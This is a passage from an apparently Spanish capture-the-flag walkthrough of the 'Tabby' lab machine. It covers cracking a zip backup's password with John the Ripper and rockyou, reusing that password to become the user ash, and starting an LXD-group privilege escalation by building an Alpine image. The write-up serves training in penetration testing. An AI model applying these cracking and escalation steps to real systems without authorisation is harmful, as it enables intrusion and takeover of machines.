 ```bash
```

- Crack del hash

```bash
john --w=/usr/share/wordlists/rockyou.txt hashzip

john --show hashzip
16162020_backup.zip:admin@it::16162020_backup.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:16162020_backup.zip

1 password hash cracked, 0 left
```

Como vemos la password es `admin@it`

-----------------------
# ESCALADA A ROOT
--------------------

- Probamos con la contraseña extraída contra el usuario `ash` 

```bash
tomcat@tabby:/tmp$ su ash
Password: 
ash@tabby:/tmp$ whoami
ash
```

Lo siguiente es hacer la escalada de privilegios a `root`

- Ejecutamos comandos tipicos de reconocimiento

```bash
ash@tabby:/tmp$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Como vemos el usuario `ash` esta dentro del grupo `lxd`, basicamente esto nos permitirá la creación de contenedores y haciendo uso de monturas dentro de ellos podremos ver/modificar y ganar el acceso completo a la maquina, en este caso he usado un script automatizado que me devuelve una bash instantánea.

- Descargar repositorio `alpine` en nuestra maquina atacante debido a que dentro de la maquina victima no tenemos conexión (**Ejecutar todo como usuario root**)

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
bash build-alpine
```

- Se nos quedara un archivo tal que así

```bash
alpine-v3.20-x86_64-20240922_0946.tar.gz
```
